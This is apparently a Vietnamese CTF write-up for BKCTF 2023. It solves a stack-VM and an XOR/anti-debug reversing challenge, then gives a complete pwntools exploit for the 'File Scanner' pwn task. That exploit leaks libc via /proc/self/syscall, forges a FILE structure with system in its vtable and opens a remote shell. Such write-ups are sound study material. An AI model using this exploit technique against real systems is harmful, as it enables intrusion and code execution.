


Solutions for some challenges in BKCTF 2023

<!--more-->
<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin-left: auto; 
    margin-right: auto;
}
</style>
# BKCTF 2023


BKCTF là giải mà mình lần đầu tiên được tham gia onsite. Host là câu lạc bộ BKSEC của Trường Đại học Bách khoa Hà Nội, nơi đào tạo kỹ thuật hàng đầu tại Việt Nam, là niềm mơ ước của biết bao thế hệ học sinh, sinh viên trong nước. Mình nhớ tới BKSEC vì có biết một số anh chị rất khủng và có tiếng tăm trong ngành như anh chung96vn, chị lanleft, anh hacmao, ... 

Sau một năm, mình muốn chơi lại giải này để xem thử trình độ của mình đã tiến bộ được chút nào hay chưa. Đề bài mình chơi vẫn đang được mở trên web [Cookie Hân Hoan](https://battle.cookiearena.org/arenas/bkctf-2023), các bạn hoàn toàn có thể vào chơi và tận hưởng bộ đề theo mình nghĩ là khá thú vị. 


# Let's get started

## rev/BabyStack


* **Given files:** [BabyStack.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EWmha5dk9GxHhMIDplXWwkwBcXd6O5JpYM1G38mtdG8Elw?e=EBWzTG)
* **Difficulty:** Hard
* **Description:** Stack up to the moon. Flag format: `BKSEC{}`


**Solution**

> Theo quan điểm cá nhân của mình, bài này không thực sự quá khó. Nếu ai đã từng có một chút kinh nghiệm làm các dạng bài StackVM thì sẽ thấy bài này khá nhẹ nhàng. Mình sẽ cố gắng đi chi tiết từng thao tác nhỏ để các bạn mới có thể dễ dàng tiếp cận. Happy hacking ... 

### Overview & Clean code 

Đề bài cho chúng ta một file PE 64 bit `StackVM.exe` với mã giả dài hơn 300 dòng, chủ yếu là khai báo và gán giá trị cho các biến. 

Sau khi nhìn tổng quan, ta thấy chương trình khởi tạo cho vm một loạt bytecode như thế này 



Tiếp theo, chương trình cho nhập vào `Buffer` và kiểm tra kích thước xem có bằng 20 không. 

```c
fgets(Buffer, 0x15, v6);
    do
    {
        Buffer[++v4];
    }
    while ( Buffer[v4] );

    if ( v4 != 0x14 )
    {
        v7 = sub_140001000(std::cout, "Not enough length");
        std::ostream::operator<<(v7, sub_140001260);
        exit(0);
    }
```

Đầu tiên, chúng ta phải đi định nghĩa lại kích thước của mảng `bytecodes[]` và `Buffer[]` để chương trình nhìn gọn gàng hơn. 

Đặt lại cho mảng `Buffer[]` có kích thước 20 bytes và đổi tên thành `input[]`. 


và mảng `bytecodes[]` là 400 bytes. 



> Tại sao mình tính được kích thước là 400 bytes. Vì `bytecodes` bắt đầu từ `v24 [rsp+60h]`, kết thúc ở `v131 [rsp+1E8h]`, vậy nên 0x1E8 - 0x60 + 8 = 400

Okay, chương trình đã ngắn hơn một xíu rồi. Tiếp tục quan sát đoạn code dưới đây, ta thấy chương trình sử dụng vtable. Hiểu một cách đơn giản, vtable như là một cái bảng chứa các hàm, chương trình cần dùng hàm nào thì nhảy vào đó mà lấy. 


Ở đây mình sẽ tạo 1 struct cho vtable có kích thước 40 byte, đúng bằng kích thước của `v19`. Double click vào `vtable`, bôi đen toàn bộ các hàm, chuột phải và create struct. Đặt tên cho struct này là `struct_vtable`, tên các field mình vẫn giữ nguyên, sau này khi phân tích kỹ càng hơn mình sẽ rename sau. 


Thường những bài StackVM, mọi thao thác đều diễn ra trên cùng một stack. Và có 2 thứ không thể thiếu đó là: 
- `stack_base`: địa chỉ gốc stack
- `stack_esp`: địa chỉ đỉnh ngăn xếp 

Nhìn vào mã giả, mình đoán chắn chắn `v19[4]` là `stack_base` và `v19[3]` là `stack_esp`. Còn `v19[1]` và `v19[2]` chưa rõ nên mình không định nghĩa. 
Tạo tiếp một struct `struct_vm` như sau


và ép kiểu cho field đầu tiên là `*struct_vtable` mà chúng ta đã định nghĩa ở phía trên. 

Right click `v19`, nhấn `Convert to Struct * ...` và chọn `struct_vm` để sửa lại cấu trúc cho `v19`. 

### Analyze 

Chúng ta có thể thấy `input` được load vào mảng `bytecodes[]` như sau:
```c
bytecodes[29] = input[0];
bytecodes[28] = input[1];
bytecodes[79] = input[2];
bytecodes[78] = input[3];
bytecodes[117] = input[4];
bytecodes[116] = input[5];
bytecodes[155] = input[6];
bytecodes[154] = input[7];
bytecodes[193] = input[8];
bytecodes[192] = input[9];
bytecodes[231] = input[10];
bytecodes[230] = input[11];
bytecodes[269] = input[12];
bytecodes[268] = input[13];
bytecodes[307] = input[14];
bytecodes[306] = input[15];
bytecodes[345] = input[16];
bytecodes[344] = input[17];
bytecodes[383] = input[18];
total_bytecode = 0;
bytecodes[382] = input[19];
```

Nếu chú ý, ta có thể thấy các `bytecodes` chứa `input` liền kề nhau từng đôi một. Vậy rất có thể, chương trình sẽ đi xử lý từng cặp một của `input`. 

Đoạn xử lý chính của chương trình nằm ở đây
```c
do
    {
        v10 = bytecodes[idx];
        if ( bytecodes[idx + 1] == 6 )
        {
            instruction_sz = 4i64;
            HIDWORD(ptr_vm) = bytecodes[idx + 1];
            LOBYTE(ptr_vm) = bytecodes[idx];
            v12 = ptr_vm;
            LOWORD(v20) = bytecodes[idx + 3] + (bytecodes[idx + 2] << 8);
            v13 = v20;
        }
        else
        {
            HIDWORD(v21) = bytecodes[idx + 1];
            instruction_sz = 2i64;
            LOBYTE(v21) = bytecodes[idx];
            v12 = v21;
            LOWORD(v22) = 0;
            v13 = v22;
        }

        *(_DWORD *)&input[8] = v13;
        vtable = v3->vtable;
        total_bytecode += instruction_sz;
        *(_QWORD *)input = v12;
        ((void (__fastcall *)(struct_vm *, char *))vtable->___7stackVM__6B@)(v3, input);
        idx += instruction_sz;
    }
    while ( total_bytecode < 0x18C );
```
Tóm tắt đoạn code trên như sau: 
- Nếu `[idx + 1] == 6` thì 
  * Instruction sẽ có kích thước 4 byte, bắt đầu từ `[idx]` tới `[idx + 3]`
  * Value sẽ là sự kết hợp giữa `[idx + 2]` và `[idx + 3]`
  * Được xử lý bởi hàm `PUSH`
- Nếu `[idx + 1] != 6` thì: 
  - Instruction sẽ có kích thước 2 byte, bắt đầu từ `[idx]` tới `[idx + 1]`
  - Dựa vào `[idx + 1]` mà có 7 lựa chọn để gọi hàm xử lý: 
    - `CMP = 0`
    - `XOR = 1`
    - `ADD = 2`
    - `SUB = 3`
    - `SHL = 4`
    - `SHR = 5`
    - `POP = 7`
    - `AND = 8`

Dưới đây là minh họa cho việc mình rename và retype cho hàm `PUSH`. Các hàm khác các bạn làm tương tự thì code sẽ clean hơn rất nhiều. 

```c
__int64 __fastcall PUSH(struct_vm *a1, char a2, __int16 value)
{
    __int64 result; // rax
    __int64 stack_esp; // r9

    result = a1->stack_base;
    stack_esp = a1->stack_esp;
    if ( a2 == 1 )
    {
        *(result + stack_esp + 1) = value;
        a1->stack_esp += 2i64;
    }
    else
    {
        *(result + stack_esp + 1) = value;
        ++a1->stack_esp;
    }

    return result;
}
```

### Solve 
Sau khi đã hiểu cách thức hoạt động, mình đã lấy toàn bộ giá trị của mảng `bytecodes[]` và viết một đoạn code Python nhỏ để xem chương trình đang thực hiện những thao tác gì. 

```python
bytecodes = [0x00, 0x06, 0x00, 0x01, 0x01, 0x06, 0x0C, 0x0D, 0x01, 0x06, 
        0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 0x22, 0x38, 0x01, 0x06, 
        0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x62, 0x61, 
        0x01, 0x01, 0x01, 0x06, 0x69, 0x4E, 0x01, 0x00, 0x00, 0x07, 
        0x00, 0x00, 0x01, 0x06, 0x0C, 0x0D, 0x01, 0x06, 0x2D, 0x41, 
        0x01, 0x02, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 
        0x22, 0x38, 0x01, 0x06, 0x55, 0x22, 0x01, 0x01, 0x01, 0x06, 
        0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x64, 0x63, 
        0x01, 0x01, 0x01, 0x06, 0x32, 0x6A, 0x01, 0x00, 0x00, 0x07, 
        0x00, 0x00, 0x01, 0x06, 0x49, 0x30, 0x01, 0x06, 0x00, 0x08, 
        0x01, 0x05, 0x01, 0x06, 0x3E, 0x5E, 0x01, 0x06, 0xFF, 0x00, 
        0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x66, 0x65, 0x01, 0x01, 
        0x01, 0x06, 0x45, 0x0A, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 
        0x01, 0x06, 0x3B, 0x20, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 
        0x01, 0x06, 0x6B, 0x2D, 0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 
        0x01, 0x02, 0x01, 0x06, 0x68, 0x67, 0x01, 0x01, 0x01, 0x06, 
        0x5B, 0x78, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 
        0x2B, 0x79, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 
        0x70, 0x41, 0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 
        0x01, 0x06, 0x6B, 0x69, 0x01, 0x01, 0x01, 0x06, 0x37, 0x45, 
        0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 0x78, 0x79, 
        0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 0x34, 0x41, 
        0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 
        0x6D, 0x6C, 0x01, 0x01, 0x01, 0x06, 0x55, 0x0A, 0x01, 0x00, 
        0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 0x6A, 0x36, 0x01, 0x06, 
        0x00, 0x08, 0x01, 0x05, 0x01, 0x06, 0x2D, 0x01, 0x01, 0x06, 
        0xFF, 0x00, 0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x32, 0x31, 
        0x01, 0x01, 0x01, 0x06, 0x58, 0x1E, 0x01, 0x00, 0x00, 0x07, 
        0x00, 0x00, 0x01, 0x06, 0x75, 0x1B, 0x01, 0x06, 0x00, 0x08, 
        0x01, 0x05, 0x01, 0x06, 0x3B, 0x17, 0x01, 0x06, 0xFF, 0x00, 
        0x01, 0x08, 0x01, 0x02, 0x01, 0x06, 0x34, 0x33, 0x01, 0x01, 
        0x01, 0x06, 0x0F, 0x19, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 
        0x01, 0x06, 0x77, 0x7C, 0x01, 0x06, 0x00, 0x08, 0x01, 0x05, 
        0x01, 0x06, 0x45, 0x30, 0x01, 0x06, 0xFF, 0x00, 0x01, 0x08, 
        0x01, 0x02, 0x01, 0x06, 0x36, 0x35, 0x01, 0x01, 0x01, 0x06, 
        0x76, 0x03, 0x01, 0x00, 0x00, 0x07, 0x00, 0x00, 0x01, 0x06, 
        0x0F, 0x37, 0x01, 0x06, 0x00, 0x08, 0x01, 0x04, 0x01, 0x06, 
        0x3B, 0x23, 0x01, 0x06, 0x00, 0xFF, 0x01, 0x08, 0x01, 0x02, 
        0x01, 0x06, 0x38, 0x37, 0x01, 0x01, 0x01, 0x06, 0x4A, 0x12, 
        0x01, 0x00, 0x00, 0x07, 0x00, 0x00]

idx = 0 

while (idx < len(bytecodes)): 
    code = bytecodes[idx + 1]
    if (code == 0x06): 
        instruction_sz = 4 
        value = (bytecodes[idx + 2] << 8) | (bytecodes[idx + 3])
        print(f"PUSH {hex(value)}")
        idx += 4 
    else:
        instruction_sz = 2 
        match code:
            case 0x00: 
                print("CMP")
            case 0x01: 
                print("XOR")
            case 0x02: 
                print("ADD")
            case 0x03: 
                print("SUB")
            case 0x04: 
                print("SHL")
            case 0x05: 
                print("SHR")
            case 0x07: 
                print("POP")
            case 0x08: 
                print("AND")                            
        idx += 2
```

Mình sẽ thử phân tích một phần nhỏ kết quả thu được đầu tiên với `input` = `abcdefghiklm12345678`

```assembly
PUSH 0x1
PUSH 0xC0D
PUSH 0x8
SHR
PUSH 0x2238
PUSH 0xFF00
AND
ADD
PUSH 0x6261
XOR
PUSH 0x694E
CMP
```

1. `PUSH` 3 số 0x1, 0xC0D, 0x8 vào stack, `ESP` sẽ ở 0x8 
2. `SHR` là dịch phải: 0xC0D >> 0x8 = 0xC, `ESP` sẽ là 0xC 
3. `PUSH` 2 số 0x2238, 0xFF00 và `AND` với nhau. Kết quả là: 0x2238 & 0xFF00 = 0x2200
4. `ADD` sẽ cộng 2 số đầu tiên trên stack: 0x2200 + 0xC = 0x220C 
5. `PUSH` 0x6261 là 2 byte đầu tiên của `input`
6. `XOR` 0x220C ^ 0x6261 = 0x406D
7. `CMP` kết quả trên với `0x694E`

Phía trên chỉ là toàn bộ phỏng đoán của mình. Để kiểm chứng, mình debug và check ở hàm `CMP` xem logic trên có thực sự đúng không. 


Correct... 

Với việc dump được ra các instruction, chúng ta hoàn toàn có thể giải tay ra được flag. Nhưng để tiết kiệm thời gian, mình sẽ chỉ đặt breakpoint ở hàm `XOR` và hàm `CMP` để lấy các kết quả cuối cùng. 

Một số lưu ý nhỏ: 
1. Ta thấy trong đống `bytecodes[]` kia, 2 byte `0x01, 0x00` đại diện cho lệnh `CMP`. Vậy chắc chắn trước đó sẽ là lệnh `PUSH` giá trị `cipher` để so sánh kết quả đã xor. Từ đó ta không cần đặt breakpoint ở hàm `CMP` nữa. 
2. Việc thực hiện 1 loạt biến đổi rồi xor với 2 byte `input` ta không cần quan tâm. Chỉ cần `F9` và xem thử có input của mình không. Nếu có thì đó là giá trị chính xác. 
 
```python
value = [0x220c, 0x7739, 0x3e49, 0x6b3b, 0x702b, 0x3478, 0x2d6a, 0x3b75, 0x4577, 0x3723]
cipher = [0x694E, 0x326A, 0x450A, 0x5B78, 0x3745, 0x550A, 0x581E, 0xF19, 0x7603, 0x4A12]
flag = "".join([(v ^ c).to_bytes(2, "little").decode("utf8") for v, c in zip(value, cipher)])
```

Flag thu được là `BKSEC{C0nGratul4t31}`

## rev/Reality


* **Given files:** [reality.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EYE-JsOfHUlLn3eLktQ-CXIB5e-4J0AhnZoM9qHwfNqGdA?e=Phj3TB)
* **Difficulty:** Medium
* **Description:** A simple reversing challenge... Flag format: `BKSEC{}`


**Solution**

Đề bài cho chúng ta một file PE32 `reality.exe`. Khi decompile file này, IDA không cho chúng ta mã giả. Mình sẽ đi đọc mã assembly kết hợp debug để xem chương trình đang làm gì. 


Về tổng quan, chương trình cho nhập input và luôn nhảy vào block có exception khi chúng ta debug. 


Nhìn ở block bên cạnh, mình thấy có một chuỗi khá khả nghi `BKSEECCCC!!!`. Thử xem qua hàm `sub_401220` được gọi trong block này, ta thấy đây đơn giản chỉ là một hàm xor input với key là chuỗi phía trên. 

```c
char __fastcall sub_401220(const char *a1, int a2, int a3)
{
    char result; // al
    signed int v5; // esi
    int i; // ecx

    v5 = strlen(a1);
    for ( i = 0; i < a3; ++i )
    {
        result = a1[i % v5];
        *(_BYTE *)(i + a2) ^= result;
    }

    return result;
}
```

Mình debug và sửa `EIP` cho nó trỏ vào khối này. Ta thấy được rất nhiều bytecode ở dưới, mình dùng make code thì thấy đó là những phép biến đổi rất phức tạp. 


Ta thấy ở `loc_40131F` là câu lệnh 
```assembly
jmp short near ptr loc_40131F+1 
```
nghĩa là cứ đến đây nó sẽ bị lặp vô tận. Mình nhận ra có gì đó sai sai nên đã ấn `d` để tách hết thành từng bytecode và ấn `c` để make code lại. Kết quả thu được như sau 


Yeah, đến đây thì rõ ràng rồi. Chương trình check xem ta có đang debug không. Nếu có sẽ nhảy vào đống tính toán phức tạp kia, ngược lại sẽ nhảy tới `loc_401AD5`. 

> Tại sao mình biết đây là anti-debug, câu trả lời các bạn có thể xem ở [stackoverflow](https://stackoverflow.com/questions/14496730/mov-eax-large-fs30h). 

Ở `loc_401AD5` chỉ là gán giá trị cho `cipher[]`. Vậy chúng ta chỉ cần lấy mảng này xor ngược lại với key phía trên là có được flag. 

```python
cipher = [
    0x00, 0x00, 0x00, 0x00, 0x06, 0x38, 0x26, 0x77, 0x30, 0x58, 
    0x7E, 0x42, 0x2A, 0x7F, 0x3F, 0x29, 0x1A, 0x21, 0x36, 0x37, 
    0x1C, 0x55, 0x49, 0x12, 0x30, 0x78, 0x0C, 0x28, 0x30, 0x30, 
    0x37, 0x1C, 0x21, 0x12, 0x7E, 0x52, 0x2D, 0x26, 0x60, 0x1A, 
    0x24, 0x2D, 0x37, 0x72, 0x1C, 0x45, 0x44, 0x43, 0x37, 0x2C, 
    0x6C, 0x7A, 0x38
]
key = [ord(i) for i in "BKSEECCCC!!!"]
flag = "".join([chr(cipher[i] ^ key[i % len(key)]) for i in range(len(cipher))])
print(flag)
```

Flag thu được là `BKSEC{e4sy_ch4ll_but_th3r3_must_b3_som3_ant1_debug??}` 

## rev/Checker


* **Given files:** [checker.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EVfrh8c75apLnhn8Vv_rhBIBD1E3SAbCgdo35RI5QCEx4w?e=gggpRu)
* **Difficulty:** Easy
* **Description:** a checker ran with rice tree. Flag format: `BKSEC{}`


**Solution**

Updating ... 

## pwn/File Scanner


* **Given files:** [bkctf2023-file-scanner.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EZ9OTXN0q9FOip0-58L7HfABRbHe_ozK_7abZoFk8uVsQQ?e=ooSD6Y)
* **Difficulty:** Medium
* **Description:** The most powerful tool maybe the worst :(. Flag format: `BKSEC{}`


**Solution**

Chương trình tạo 1 số random 16 byte và bắt chúng ta phải nhập chính xác số random đó. 

```c
v3 = time(0);
  srand(v3);
  for ( i = 0; i <= 15; ++i )
    s2[i] = generateRandomHexValue();
  memset(s, 0, sizeof(s));
  printf("Are you Huster? Show me your ID: ");
  custom_read(s);
  n = strlen(s);
  if ( strncmp(s, s2, n) )
  {
    printf("Do you forgot your ID, so badd !!!");
    exit(1);
  }
  puts("Ohh... so you can use the newest tool I just found");
  puts("Please don't break my program T_T\n");
```

Ta hoàn toàn có thể bypass hàm `strncmp` với input `\n`. 

Dễ thấy ý đồ của tác giả là muốn sử dụng kỹ thuật File Structure Attack. Ở option 4, chương trình có bug BOF như sau 

```c
puts("oh... I forgot asking your name");
printf("What is your name: ");
__isoc99_scanf("%s", name);
printf("See you soon, %s !!!\n", name);
if ( filePtr )
fclose(filePtr);
exit(1);
```

Từ biến `name`, ta hoàn toàn overwrite được `filePtr` lẫn `fileContent`. Vậy mình hoàn toàn fake được `file structure` và `vtable` sao cho toàn bộ hàm trong `vtable` đều là `system`. 


Để leak được `libc`, chúng ta có thể mở `/proc/self/maps` hoặc `/proc/self/syscall`. 

Full exploit 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./file_scanner_patched", checksec = False)
libc = ELF("./libc_32.so.6", checksec = False)
ld = ELF("./ld-2.23.so", checksec = False)

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.97.125.56", 31381)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

sla(b"ID: ", "") 

# open /proc/self/syscall 
sla(b"choice :", b"1")
sla(b"filename: ", b"/proc/self/syscall")
sla(b"choice :", b"2")
sla(b"choice :", b"3")

libc_leak = int(rl().strip()[-10::], 16)
libc_base = libc_leak - 0x1ba549
system = libc_base + libc.symbols["system"] 

log.info(f"libc base = {hex(libc_base)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"system = {hex(system)}")

sla(b"choice :", b"4")

file = FileStructure()
file.flags = u32(b"/bin")
file._IO_read_ptr = u32(b"/sh\x00") 
file._lock = 0x804b250
file.vtable = 0x804b178
binsh = 0x804b0e0

payload = b"A" * 0x20 + p32(binsh) + b"B" * 28 + bytes(file) + p32(system) * 21

sla(b"name: ", payload)

p.interactive() 
```

Flag của bài toán là `BKSEC{fSoP_1s_n0t_2_hArd_4_u_d4e2411f244126da3242265c90e10c46}`